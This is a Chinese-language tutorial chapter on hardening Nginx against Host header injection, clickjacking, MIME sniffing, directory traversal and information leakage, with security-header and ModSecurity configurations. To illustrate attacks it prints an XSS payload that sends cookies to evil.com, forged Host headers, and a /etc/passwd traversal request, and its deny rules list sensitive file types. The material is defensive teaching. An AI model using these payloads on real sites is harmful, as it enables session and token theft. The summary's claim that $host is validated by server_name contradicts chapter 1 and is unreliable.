

# 11 安全加固：常见攻击向量与防御配置

## 摘要

Nginx 作为系统的流量入口，是抵御 Web 攻击的第一道防线。本文从攻击者的视角出发，深入分析六类常见攻击的根本原理——**HTTP Host Header 注入**（攻击者伪造 Host 头绕过访问控制或触发缓存投毒）、**Clickjacking**（iframe 嵌套欺骗用户点击）、**MIME Sniffing**（利用浏览器内容类型推断执行恶意脚本）、**目录遍历**（通过 `../` 访问配置目录之外的文件）、**信息泄露**（版本号、服务器标识、错误详情的暴露）以及**SSL Strip 与降级攻击**——然后从防御原理的角度讲解 Nginx 的对应配置。理解"为什么要这样配"比记住配置模板更重要：只有理解了攻击原理，才能在非标准场景中做出正确的判断，而不是盲目应用清单。

---

## 第 1 章 HTTP Host Header 注入

### 1.1 攻击原理

HTTP 请求头中的 `Host` 字段由客户端自行填写，服务端理论上应该验证它与自己的域名匹配，但很多应用直接信任并使用这个值，导致**Host Header 注入**攻击。

**攻击场景一：缓存投毒（Cache Poisoning）**

```
正常请求：
  GET /api/users HTTP/1.1
  Host: example.com
  → Nginx 缓存 Key = "example.com/api/users"
  → 缓存响应中的链接：https://example.com/login

攻击请求（攻击者伪造 Host）：
  GET /api/users HTTP/1.1
  Host: evil.com
  → 如果 Nginx 使用 $http_host 作为缓存 Key
  → 缓存 Key = "evil.com/api/users"（新 Key，cache miss）
  → 后端应用使用 Host 头生成响应中的链接：https://evil.com/login
  → 攻击者让这个"毒化"的响应被 Nginx 缓存
  → 其他用户访问 /api/users 时，收到含 evil.com 链接的响应
  → 被重定向到攻击者控制的 evil.com（钓鱼攻击）
```

**攻击场景二：密码重置链接投毒**

很多应用在发送密码重置邮件时，使用请求的 `Host` 头生成重置链接：

```python
# 不安全的后端代码（Django 风格示例）
def password_reset(request):
    reset_url = f"https://{request.headers['Host']}/reset?token={token}"
    send_email(user.email, reset_url)
```

攻击者在密码重置请求中伪造 `Host: evil.com`，邮件中的重置链接变为 `https://evil.com/reset?token=xxx`——用户点击链接，token 被发到攻击者服务器。

### 1.2 `$host` vs `$http_host` 的安全本质

这是 Nginx 安全配置中最重要的变量区分：

**`$http_host`**：直接取自 HTTP 请求头 `Host` 的原始值，包含攻击者可以任意填写的内容（含端口号，原样输出）。

**`$host`** 的取值优先级（Nginx 内部逻辑）：
1. **请求头中的 `Host`**（最高优先级，但经过 Nginx 处理：去掉端口、转换为小写）
2. 如果没有 `Host` 头，使用 **`server_name` 指令匹配到的值**
3. 如果连 `server_name` 都没有，使用 **`listen` 指令的 IP 地址**

```
攻击请求：Host: evil.com:8080

$http_host = "evil.com:8080"  → 直接暴露攻击者的输入，有端口，未过滤
$host      = "evil.com"       → 去掉端口，转换小写，但仍然是攻击者的输入！

正确的防御：在 Nginx 层验证 Host 头，而不是盲目信任
```

**正确的防御配置**：

```nginx
server {
    listen 80;
    server_name example.com www.example.com;
    
    # 方案一：明确拒绝不匹配的 Host 头（推荐）
    # 通过 default_server 兜底，对未知 Host 直接关闭连接
    # （见下方 default_server 配置）
    
    # 方案二：在应用转发时强制使用固定的 Host 值（而非客户端传入的）
    location /api/ {
        # 使用固定值而非 $http_host
        proxy_set_header Host $host;          # 使用 $host（稍好）
        # 更安全：使用硬编码的域名
        # proxy_set_header Host "api.example.com";
        proxy_pass http://backend;
    }
}

# default_server：兜底，拒绝所有未知 Host 的请求
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    
    # 对未知 Host 的请求：关闭连接，不发送任何响应
    return 444;
    # 444 是 Nginx 特有的伪状态码，触发关闭 TCP 连接（不发送 HTTP 响应）
}
```

**为什么 `return 444` 比 `return 400` 更好**：

返回 `400 Bad Request` 仍然会发送一个完整的 HTTP 响应（包含状态行、响应头、可能的错误页面），攻击者可以从响应中推断 Nginx 版本、错误页面格式等信息；`return 444` 直接关闭 TCP 连接，不发送任何数据，攻击者什么都探测不到。

---

## 第 2 章 Clickjacking 防御：X-Frame-Options

### 2.1 Clickjacking 的攻击机制

Clickjacking（UI 重叠攻击）是一种利用 `<iframe>` 透明覆盖实施欺骗的攻击：

```
攻击步骤：
1. 攻击者构建一个恶意页面
2. 页面中嵌入目标网站（如银行转账页面）的 <iframe>
3. 将 <iframe> 设置为透明（opacity: 0）并覆盖在一个诱人的按钮上
4. 用户看到的是"点击领取奖品"按钮
5. 实际上点击到了透明 <iframe> 中的"确认转账"按钮
6. 触发了用户在银行网站上的真实操作（用户已登录，Cookie 有效）
```

### 2.2 X-Frame-Options 的防御原理

```nginx
# 禁止页面被任何网站嵌入 iframe（最严格）
add_header X-Frame-Options "DENY" always;

# 只允许同源网站嵌入（适合需要在自己的页面中用 iframe 的场景）
add_header X-Frame-Options "SAMEORIGIN" always;

# 只允许特定来源嵌入（已废弃，浏览器兼容性差，不推荐）
# add_header X-Frame-Options "ALLOW-FROM https://trusted.example.com";
```

**`always` 参数的重要性**：不加 `always` 时，`add_header` 只在响应状态码为 200、201、206、301、302、303、304、307 时生效；加了 `always` 后，**对所有状态码**（包括 4xx、5xx）都生效。攻击者可能诱导请求触发特定错误响应，如果错误响应中没有 `X-Frame-Options`，仍然可以在 iframe 中显示这个错误页面（可能泄露调试信息）。

**更现代的替代方案：CSP frame-ancestors**

```nginx
# Content-Security-Policy 的 frame-ancestors 指令是 X-Frame-Options 的超集
add_header Content-Security-Policy "frame-ancestors 'none';" always;
# 'none'：禁止所有来源嵌入
# 'self'：只允许同源
# 'self' https://trusted.com：同源 + 特定来源

# 两者同时设置（向后兼容不支持 CSP 的旧浏览器）
add_header X-Frame-Options "SAMEORIGIN" always;
add_header Content-Security-Policy "frame-ancestors 'self';" always;
```

---

## 第 3 章 MIME Sniffing 防御：X-Content-Type-Options

### 3.1 浏览器 MIME 类型推断的危险性

MIME Sniffing 是浏览器的一种"帮助性"行为——当服务端返回的 `Content-Type` 与响应内容不匹配时，某些浏览器（主要是 IE 和旧版 Chrome）会尝试**自动推断**实际内容类型。

**攻击场景：上传文件绕过限制**

```
场景：某网站允许用户上传图片，后端只检查文件扩展名（.jpg）

攻击步骤：
1. 攻击者上传一个文件，内容是 JavaScript 代码，但命名为 malicious.jpg
2. 后端以为是图片，保存并允许通过 URL 访问
3. 服务端响应：Content-Type: image/jpeg
4. 浏览器尝试渲染，发现内容不像 JPEG
5. IE/旧浏览器的 MIME Sniffing：推断这实际上是 text/html 或 application/javascript
6. 浏览器以 HTML/JS 方式执行这个"图片"
7. 攻击者的 JavaScript 在受害者的浏览器上执行（XSS！）
```

### 3.2 X-Content-Type-Options 的防御

```nginx
# 禁止浏览器进行 MIME 类型推断，强制使用服务端声明的 Content-Type
add_header X-Content-Type-Options "nosniff" always;
```

`nosniff` 告诉浏览器：严格使用响应头中的 `Content-Type`，不要自作聪明地推断。当 `Content-Type: image/jpeg` 的响应包含 JavaScript 代码时，浏览器会将它作为图片处理（解析失败），而不是执行 JavaScript。

**这个防御的前提**：服务端必须为所有响应正确设置 `Content-Type`。如果服务端对 CSS 文件返回 `application/octet-stream`，加了 `nosniff` 后浏览器不会加载这个 CSS（因为类型不是 `text/css`）。错误的 `Content-Type` + `nosniff` 会导致页面功能损坏。

---

## 第 4 章 目录遍历防御

### 4.1 目录遍历的攻击原理

**目录遍历攻击（Path Traversal）** 通过在 URI 中插入 `../` 序列，访问 Web 根目录之外的文件：

```
Nginx 配置：root /var/www/html;

正常请求：GET /images/logo.png
  → 文件路径：/var/www/html/images/logo.png ✅

目录遍历请求：GET /images/../../../../etc/passwd
  → 路径解析：/var/www/html/images/../../../../etc/passwd
  → 实际路径：/etc/passwd ← 系统密码文件！

如果 Nginx 没有正确处理，可能返回 /etc/passwd 的内容
```

### 4.2 Nginx 对目录遍历的内置防护

实际上，**Nginx 对目录遍历有内置的路径规范化处理**：在将 URI 映射到文件系统路径之前，Nginx 会对 URI 进行规范化，解析掉 `../` 序列。因此，`GET /images/../../../etc/passwd` 会被 Nginx 规范化为 `GET /etc/passwd`，然后与 `root /var/www/html` 拼接得到 `/var/www/html/etc/passwd`——该文件通常不存在，返回 404。

但这并不意味着 Nginx 对目录遍历完全免疫，以下场景仍然存在风险：

**风险场景一：alias 配置错误**

```nginx
# 危险的 alias 配置（末尾斜杠不一致）
location /files {
    alias /var/www/uploads/;  # location 末尾无斜杠，alias 末尾有斜杠
}

# 请求 /files../etc/passwd
# 路径拼接：/var/www/uploads/ + ../etc/passwd = /var/www/etc/passwd → /etc/passwd（可能）
# 实际上 Nginx 会报错或返回 403，但这种配置本身就是危险的

# 正确的配置（location 和 alias 末尾斜杠要一致）：
location /files/ {
    alias /var/www/uploads/;  # 都有斜杠
}
```

**风险场景二：代理到后端时的路径穿越**

如果后端应用存在目录遍历漏洞，Nginx 不会自动防御（Nginx 的规范化只作用于它自己处理的文件，不修改发给后端的 URI）。

### 4.3 防御配置

```nginx
# 防御一：拒绝包含 ../ 的请求（如果后端不需要处理这类 URI）
location ~* (\.\./) {
    return 403;
}

# 防御二：隐藏文件（以 . 开头）不可访问
location ~ /\. {
    deny all;
    return 404;
}

# 防御三：禁止访问特定敏感文件类型
location ~* \.(env|git|svn|htpasswd|htaccess|ini|log|bak|conf)$ {
    deny all;
    return 404;
}

# 防御四：限制访问范围（只允许 GET 和 HEAD 方法，针对静态资源服务器）
location /static/ {
    limit_except GET HEAD {
        deny all;
    }
}
```

---

## 第 5 章 信息泄露防御

### 5.1 Server 响应头的版本号泄露

默认情况下，Nginx 在每个 HTTP 响应中添加 `Server` 头，暴露软件名称和版本号：

```
Server: nginx/1.24.0
```

版本号信息对攻击者非常有价值——他们可以查询该版本的已知漏洞（CVE），直接使用相应的 exploit。

```nginx
# 隐藏版本号（只显示 nginx，不显示版本）
server_tokens off;
# 响应头变为：Server: nginx

# 完全隐藏 Server 头（需要 ngx_headers_more 模块）
# more_clear_headers Server;
# 响应头中不再包含 Server 字段
```

### 5.2 错误页面信息泄露

默认的 Nginx 错误页面包含版本信息：

```html
<hr><center>nginx/1.24.0</center>
```

```nginx
# 自定义错误页面（不泄露版本信息）
error_page 400 401 403 404 /error/4xx.html;
error_page 500 502 503 504 /error/5xx.html;

location /error/ {
    internal;  # 只允许内部跳转访问（外部直接访问返回 404）
    root /var/www;
}
```

### 5.3 X-Powered-By 等后端信息头的清除

后端应用（如 PHP-FPM）可能在响应中添加暴露技术栈的头：

```
X-Powered-By: PHP/8.1.0
X-Generator: WordPress 6.4
```

```nginx
# 在 Nginx 层清除这些头（防止泄露后端技术栈）
proxy_hide_header X-Powered-By;
proxy_hide_header X-Generator;
proxy_hide_header X-AspNet-Version;

# 使用 ngx_headers_more 模块更彻底地清除（包括从 upstream 传来的所有自定义头）
# more_clear_headers X-Powered-By X-Generator;
```

---

## 第 6 章 完整安全响应头配置

### 6.1 现代 Web 安全响应头全集

```nginx
# /etc/nginx/snippets/security-headers.conf
# 在需要的 server 块中 include 这个文件

# ====== 防 Clickjacking ======
add_header X-Frame-Options "SAMEORIGIN" always;

# ====== 防 MIME Sniffing ======
add_header X-Content-Type-Options "nosniff" always;

# ====== 防 XSS（旧式，现代浏览器依赖 CSP）======
add_header X-XSS-Protection "1; mode=block" always;

# ====== 强制 HTTPS（HSTS）======
# 注意：只在 HTTPS server 块中使用，HTTP server 中使用会导致用户永久无法访问 HTTP
add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;

# ====== Referrer 策略 ======
# strict-origin-when-cross-origin：同源请求发送完整 URL，跨源请求只发送 Origin
add_header Referrer-Policy "strict-origin-when-cross-origin" always;

# ====== Permissions Policy（权限策略，替代 Feature-Policy）======
# 禁止页面使用摄像头、麦克风、地理位置（除非业务需要）
add_header Permissions-Policy "camera=(), microphone=(), geolocation=()" always;

# ====== Content Security Policy（最复杂，需要根据业务定制）======
# 示例：只允许加载同源资源，禁止内联脚本
# add_header Content-Security-Policy "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; frame-ancestors 'none';" always;
# 注意：CSP 配置错误会导致页面功能损坏，需要先用 Content-Security-Policy-Report-Only 测试
```

### 6.2 Content Security Policy（CSP）深度解析

CSP 是现代 Web 安全最重要的防御机制，通过声明"哪些来源的资源是可信的"，从根本上防止 XSS（跨站脚本）攻击：

```
没有 CSP 时的 XSS：
  攻击者在页面中注入 <script>document.location='https://evil.com/?c='+document.cookie</script>
  浏览器执行这段脚本，用户 Cookie 被发送到 evil.com

有 CSP 时（script-src 'self'）：
  浏览器检查脚本来源：evil.com 不在允许列表（只允许 'self'）
  浏览器拒绝执行这段脚本
  攻击失败
```

**CSP 的指令体系（常用部分）**：

| 指令 | 控制内容 | 典型值 |
|-----|---------|-------|
| `default-src` | 所有资源的默认策略 | `'self'` |
| `script-src` | JavaScript 脚本来源 | `'self' https://cdn.example.com` |
| `style-src` | CSS 样式来源 | `'self' 'unsafe-inline'`（允许内联样式）|
| `img-src` | 图片来源 | `'self' data: https:`（允许所有 HTTPS 图片）|
| `connect-src` | AJAX/Fetch/WebSocket 连接来源 | `'self' https://api.example.com` |
| `frame-ancestors` | 允许嵌入当前页面的来源 | `'none'` 或 `'self'` |
| `report-uri` | CSP 违规报告地址 | `/csp-report` |

**生产部署 CSP 的正确姿势**：

直接部署 CSP 很危险——一个配置错误可能导致整个网站的 JS/CSS 无法加载，严重影响业务。正确的流程是：

1. 先用 `Content-Security-Policy-Report-Only` 模式观察违规（不拦截，只报告）
2. 收集违规报告，调整 CSP 规则
3. 确认无违规后，切换为 `Content-Security-Policy`（开始拦截）

```nginx
# 第一阶段：观察模式（不拦截）
add_header Content-Security-Policy-Report-Only
    "default-src 'self'; script-src 'self'; report-uri /csp-report;" always;

# CSP 违规报告接收端（后端 API）
location /csp-report {
    proxy_pass http://csp-report-service;
    # 或者直接记录到 Nginx 日志：
    # access_log /var/log/nginx/csp-report.log;
    # return 204;
}
```

---

## 第 7 章 ModSecurity 集成：WAF 防御层

### 7.1 什么是 WAF，为什么需要它

上述所有防御措施都是"已知攻击模式"的针对性防御。但攻击者的手段不断演进——SQL 注入、命令注入、路径操纵、HTTP 协议滥用等攻击，仅靠固定的响应头无法防御。

**WAF（Web Application Firewall，Web 应用防火墙）** 通过规则引擎分析 HTTP 请求的内容（URL 参数、请求体、请求头），识别并拦截恶意请求。

**ModSecurity** 是最主流的开源 WAF 引擎，原生支持 Nginx 的 `ngx_http_modsecurity_module` 集成：

### 7.2 ModSecurity v3 + Nginx 集成架构



### 7.3 ModSecurity Nginx 配置

```nginx
# nginx.conf
load_module /usr/lib/nginx/modules/ngx_http_modsecurity_module.so;

http {
    # 开启 ModSecurity（全局或特定 server/location）
    modsecurity on;
    
    # 加载规则配置文件
    modsecurity_rules_file /etc/nginx/modsec/modsecurity.conf;
    
    server {
        location / {
            modsecurity on;
            proxy_pass http://backend;
        }
        
        # 对特定路径禁用 WAF（如上传接口，避免误拦截合法的大文件）
        location /upload/ {
            modsecurity off;
            proxy_pass http://backend;
        }
    }
}
```

```bash
# /etc/nginx/modsec/modsecurity.conf（核心配置）
SecRuleEngine On            # On=拦截, DetectionOnly=仅检测不拦截（推荐初期使用）
SecAuditLog /var/log/nginx/modsec_audit.log
SecAuditLogParts ABCFHZ    # 记录请求/响应的哪些部分

# 加载 OWASP CRS（Core Rule Set）
Include /usr/share/modsecurity-crs/crs-setup.conf
Include /usr/share/modsecurity-crs/rules/*.conf
```

**OWASP CRS 覆盖的攻击类型**：
- SQL 注入（SQLi）
- 跨站脚本（XSS）
- 路径遍历（Path Traversal）
- 远程文件包含（RFI）/ 本地文件包含（LFI）
- 命令注入（Command Injection）
- HTTP 协议异常（Protocol Anomaly）
- 机器人/扫描器检测

> [!warning] 生产避坑：WAF 误拦截与调优
> OWASP CRS 开箱即用时误报率较高，尤其对于包含特殊字符的合法请求（如搜索框输入含 SQL 关键词的查询、API 接口传递 JSON 格式的复杂数据）。
>
> **推荐的 WAF 上线流程**：
> 1. 先以 `SecRuleEngine DetectionOnly` 模式运行 2-4 周，收集审计日志
> 2. 分析误报（合法请求被触发规则的情况），针对性地添加白名单（`SecRuleRemoveById`）
> 3. 逐步调高规则阈值（`setvar:tx.paranoia_level=1` → `2`）
> 4. 在低流量时段切换为 `SecRuleEngine On`，密切观察 4xx 错误率
> 5. 设置告警：误报导致的 403 率超过基线 0.1% 时触发告警

---

## 第 8 章 综合安全配置模板

```nginx
# /etc/nginx/nginx.conf（安全强化版）

http {
    # ====== 基础安全 ======
    server_tokens off;                        # 隐藏版本号
    
    # ====== 安全响应头（全局）======
    # 注意：这里只放真正全局适用的头
    # add_header 的继承陷阱（见第 02 篇）：
    # 在 location 中有任何 add_header 时，这里的头会被覆盖
    # 解决方案：用 snippets/security-headers.conf 在每个 server/location 中 include
    
    # ====== 请求限制 ======
    client_max_body_size 50m;                 # 防止大文件上传导致资源耗尽
    client_body_buffer_size 128k;
    large_client_header_buffers 4 16k;        # 防止超大 Header 攻击
    
    # ====== 超时防慢速攻击（Slowloris）======
    client_header_timeout 10s;               # 发送请求头的超时（防 Slowloris）
    client_body_timeout 30s;                 # 发送请求体的超时
    reset_timedout_connection on;            # 超时后发 RST（快速释放连接）
    
    server {
        listen 443 ssl http2;
        server_name example.com www.example.com;
        
        # 包含安全响应头配置
        include snippets/security-headers.conf;
        
        # 禁止访问隐藏文件
        location ~ /\. {
            deny all;
            return 404;
            access_log off;
        }
        
        # 禁止访问敏感文件类型
        location ~* \.(env|git|svn|htpasswd|ini|log|bak|sql|conf|key|pem)$ {
            deny all;
            return 404;
        }
        
        # 只允许合法 HTTP 方法
        if ($request_method !~ ^(GET|HEAD|POST|PUT|DELETE|OPTIONS|PATCH)$) {
            return 405;
        }
        
        # 清除后端返回的敏感信息头
        proxy_hide_header X-Powered-By;
        proxy_hide_header X-Generator;
        proxy_hide_header Server;
    }
    
    # default_server：拒绝所有未知 Host 的请求
    server {
        listen 80 default_server;
        listen 443 ssl default_server;
        ssl_certificate     /etc/nginx/ssl/default.crt;
        ssl_certificate_key /etc/nginx/ssl/default.key;
        return 444;
    }
}
```

---

## 小结

Nginx 的安全加固是一个分层防御体系，每一层针对不同的攻击向量：

- **Host Header 防御**：使用 `default_server` + `return 444` 拒绝未知 Host；在后端代理时始终使用 `proxy_set_header Host $host`（或硬编码值）而非 `$http_host`；`$host` 和 `$http_host` 的根本差异在于前者经过 Nginx 的 server_name 验证
- **Clickjacking**：`X-Frame-Options: SAMEORIGIN` + CSP `frame-ancestors` 双重防护；`always` 参数确保对 4xx/5xx 响应也生效
- **MIME Sniffing**：`X-Content-Type-Options: nosniff` 禁止浏览器自作主张推断内容类型；前提是服务端必须正确设置所有 `Content-Type`
- **目录遍历**：Nginx 内置路径规范化处理了大多数场景；但 `alias` 末尾斜杠不一致是高危配置错误；显式拒绝包含 `../` 的请求和隐藏文件访问是必要的防御层
- **信息泄露**：`server_tokens off` 隐藏版本号；`proxy_hide_header` 清除后端技术栈信息；自定义错误页面替换含版本信息的默认页
- **WAF**：ModSecurity + OWASP CRS 提供通用攻击防御；生产部署必须经过 DetectionOnly 阶段充分调优，避免误拦截合法请求

第 12 篇进入 OpenResty：LuaJIT 的 JIT 编译原理、ngx_lua 的 Phase Hook 体系、cosocket 如何在单线程事件循环中实现非阻塞网络 I/O，以及协程调度的完整模型。

---

## 参考资料

- [OWASP Secure Headers Project](https://owasp.org/www-project-secure-headers/)
- [OWASP ModSecurity Core Rule Set](https://coreruleset.org/)
- [Mozilla Observatory（HTTP 安全头评分工具）](https://observatory.mozilla.org/)
- [Content Security Policy 参考（MDN）](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)


---

> **下一篇**：[[12 OpenResty 架构：LuaJIT、cosocket 与协程调度]]

---

> [!note] 思考题
> 1. 大规模集群中每次 Ingress 变更触发 Nginx reload。频繁 reload 影响 WebSocket 长连接和性能。Nginx Ingress Controller 的 `--sync-period` 和 Lua 动态路由（无需 reload）如何减少 reload 次数？Kong Ingress Controller 使用 Admin API 动态更新配置是否是更好的方案？
> 2. Nginx Ingress Controller vs Envoy-based Ingress（Istio Gateway、Contour）：Nginx 在配置灵活性和成熟度有优势，Envoy 在动态配置（xDS，无 reload）和可观测性更强。在需要频繁变更路由规则的灰度发布场景中，你会选择哪个？
> 3. `nginx.ingress.kubernetes.io/configuration-snippet` 允许注入任意 Nginx 配置——强大但危险。恶意用户可能通过 Ingress 注解注入恶意配置（如读取 Nginx 内部变量、暴露敏感信息）。如何限制 `configuration-snippet` 的使用？Kubernetes RBAC 能否防止这种滥用？
